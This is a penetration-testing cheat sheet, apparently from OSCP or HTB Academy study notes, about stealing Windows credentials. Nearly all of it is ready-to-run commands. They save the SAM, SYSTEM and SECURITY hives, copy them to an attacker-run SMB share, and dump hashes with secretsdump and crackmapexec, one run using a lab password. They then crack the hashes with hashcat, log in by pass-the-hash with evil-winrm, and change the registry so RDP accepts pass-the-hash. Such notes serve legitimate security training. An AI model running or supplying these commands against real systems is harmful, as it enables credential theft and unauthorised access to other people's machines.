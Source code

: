 ```yaml
---
description: helpful when we have base shell/local shell creds
---
```


# Get NTLM from SAM

### Copying SAM registry hives

<table><thead><tr><th width="233">Registry Hive</th><th>Description</th></tr></thead><tbody><tr><td>hklm\sam</td><td>local password in hashes</td></tr><tr><td>hklm\system</td><td>system bootkey, which helps to encrypt SAM database</td></tr><tr><td>hklm\security</td><td>cached creds from domain. benefit in domain system</td></tr></tbody></table>

### Using reg.exe save to Copy Registry Hives

```
reg.exe save hklm\sam C:\sam.save

reg.exe save hklm\system C:\system.save

reg.exe save hklm\security C:\security.save
```

![[images/image 1.png]]


## Creating share with smbserver


```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

### in windows

Now, after after copying HIves with reg.exe, go to C drive and move to smb share

```
net use n: \\192.168.xx.xx\share /user:test test

copy C:\sam.save \\192.168.xx.xx\share
copy C:\security.save \\192.168.xx.xx\share
copy C:\system.save \\192.168.xx.xx\share
```

![[image 1 1.png]]
C drive


### Dumping Hashes with Impacket's secretsdump.py

secretsdump dumps the local SAM hashes&#x20;

and also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security.&#x20;

first step secretsdump executes is targeting the system bootkey. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database, which is why it is important for us to have copies of the registry hives we discussed earlier in this section.


```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```


![[images/image 2.png]]

## Remote Dumping SAM & LSA Secrets

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

![[images/image 3.png]]

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

![[images/image 4.png]]

**LSA:** can be more helpful with many purposes as we can do network auth if PC is connected with domain

**SAM:** useful to gain local user creds as it stores local passwords


## crack it

offsec just loves base64 rules or rockyou-3000
```
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

# login with winrm

after you get Hash from mimikatz or sam dump, go with evil-winrm

```
evil-winrm -i $IP -u Administrator -H $hash
```


# enable RDP for PtH

```
crackmapexec smb 192.168.0.1 -u "username" -H "NT_HASH" -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

```
xfreerdp /v:192.168.0.1 /u:username /pth:<NT_HASH>
```